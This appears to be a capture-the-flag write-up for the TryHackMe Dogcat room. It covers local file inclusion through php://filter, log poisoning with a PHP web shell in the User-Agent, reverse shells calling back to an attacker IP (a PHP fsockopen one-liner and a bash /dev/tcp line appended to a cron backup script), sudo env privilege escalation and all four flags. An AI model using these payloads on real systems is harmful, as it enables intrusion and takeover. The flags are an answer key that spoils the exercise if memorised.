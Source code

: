 # Solution

## URL
- [Dogcat](https://tryhackme.com/room/dogcat)

## Steps

### Enumerate
1. Lets start with a full port scan: `sudo nmap -v -sS -p- -A 10.10.157.229 | tee nmap-scan.txt`.
2. A website is running at port 80, lets check that out.
3. Source code of index page did not reveal much.
4. Start up burp and add `http://10.10.157.229/` to scope.
5. Let's check `/robots.txt` and `/sitemap.xml`. Neither was found.
6. Trying to fuzz for directories/files: `ffuf -u http://10.10.157.229/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -mc 200,301,302,403, -fs 418 -v | tee ffuf-dir-scan.txt`.
7. Till all these scans complete, lets scour it manually.
8. In the website, we found that it has a parameter `view` which might be vulnerable to LFI.
9. Changing the value of `view` to something different like `/?view=hello` returns that `only dogs or cats are allowed`.

### LFI
1. Changing the value of `view` to `dogs` instead of the default `dog` outputs an error.
2. So if the payload must have the keywords `dog` or `cat`. Also, `.php` gets appended to the payload, which we are unable to bypass with NULL BYTE (`%00`) injection since that was fixed in PHP version 5 and this is version 7 as shown by wappalyzer.
3. Trying to change the payload to `cat/../cat` fixes the error showing that LFI is indeed possible.
4. Changing the payload to `cat/../flag` also does not show any error but also does not show any content, which means a file called `flag.php` exists.
5. We can try the `php://` wrapper to encode the file in base64 to see its contents.
6. Trying the payload `php://filter/convert.base64-encode/resource=file:///var/www/html/dog/../flag` gives us `PD9waHAKJGZsYWdfMSA9ICJUSE17VGgxc18xc19OMHRfNF9DYXRkb2dfYWI2N2VkZmF9Igo/Pgo=`.
7. Decoding it using `echo "PD9waHAKJGZsYWdfMSA9ICJUSE17VGgxc18xc19OMHRfNF9DYXRkb2dfYWI2N2VkZmF9Igo/Pgo=" | base64 -d` shows us our first flag: `THM{Th1s_1s_N0t_4_Catdog_ab67edfa}`.
6. We can't read files like `/etc/passwd` and `/etc/shadow` because of the `.php` filter.  
7. Let's read `index.php` using `php://filter/convert.base64-encode/resource=file:///var/www/html/dog/../index`.
8. After that decode the base64 string: `echo "STRING_WE_FOUND" | base64 -d > dump-index.php`.
9. We found that if `ext` parameter is set in GET parameters then it does not add `.php` to the payload.
10. So, to read `/etc/passwd` we can just do `php://filter/convert.base64-encode/resource=file:///var/www/html/dog/../../../../../../etc/passwd&ext=`.
11. After decoding we get:
    ```
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    ```
12. Lets try to read server logs, `php://filter/convert.base64-encode/resource=file:///var/www/html/dog/../../../../../../var/log/apache2/access.log&ext=`.
13. Dumped the data into `dump-apache2-access-log.txt` file. We can see that our user-agent is logged.
14. We can try swapping our user-agent with a php code and try to execute that.
15. Start burp and capture a request to `/` of website and replace the `User-Agent` header with: `<?php system($_GET['cmd']);?>`.
16. Now access `/?view=dog/../../../../../var/log/apache2/access.log&cmd=ls%20-al&ext=` and it will get executed.

### Reverse shell:
1. Trying to get a reverse shell, first setup a listener `nc -lvnp 4242` and then go to: `/?view=dog/../../../../../var/log/apache2/access.log&cmd=php+-r+'$sock%3dfsockopen("10.17.47.107",4242)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b'&ext=`
2. Bingo! We got it, now check home directory. Got nothing, lets find flags: `find / -name "*flag*" -type f 2> /dev/null`.
3. Got `/var/www/html/flag.php` which we already read and `/var/www/flag2_QMW7JvaY2LvK.txt`.
4. Reading the new file we got: `THM{LF1_t0_RC3_aec3fb}`.

### PrivEsc:
1. After running `sudo -l` to check our sudo privileges, we got: `(root) NOPASSWD: /usr/bin/env`.
2. Checked [GTFOBins](https://gtfobins.github.io/gtfobins/env/#sudo) to see if we can get root with `env`. We can!
3. Running the command we got from GTFOBins: `sudo env /bin/sh`.
4. We became `root`.
5. Running find command again to get more flags: `find / -name "*flag*" -type f 2> /dev/null`
6. Found `/root/flag3.txt`.
7. Read that to get the flag: `THM{D1ff3r3nt_3nv1ronments_874112}`
8. We were told that this is a docker instance we need to break out of.
9. Running the `hostname` command and getting a weird string is good indicator that this is a container.
10. Also `cd`ing to `/` and listing the contents `ls -al` we can see `.dockerenv`.

### Docker container breakout:
1. After enumerating a bit more we found a script inside `/opt/backups` called `backup.sh`.
2. This might be running as a cron job in the host.
3. Inserting code for reverse shell inside it: `echo "/bin/bash -c 'bash -i >& /dev/tcp/10.17.47.107/4444 0>&1'" >> backup.sh` and starting a listener using netcat: `nc -lvnp 4444`.
4. After a min we get the connection, listing the contents we find `flag4.txt`.
5. Reading that we get the last flag: `THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}`.

### Task 1:
#### What is flag 1?
1. The answer is `THM{Th1s_1s_N0t_4_Catdog_ab67edfa}`.

#### What is flag 2?
1. The answer is `THM{LF1_t0_RC3_aec3fb}`.

#### What is flag 3?
1. The answer is `THM{D1ff3r3nt_3nv1ronments_874112}`.

#### What is flag 4?
1. The answer is `THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}`.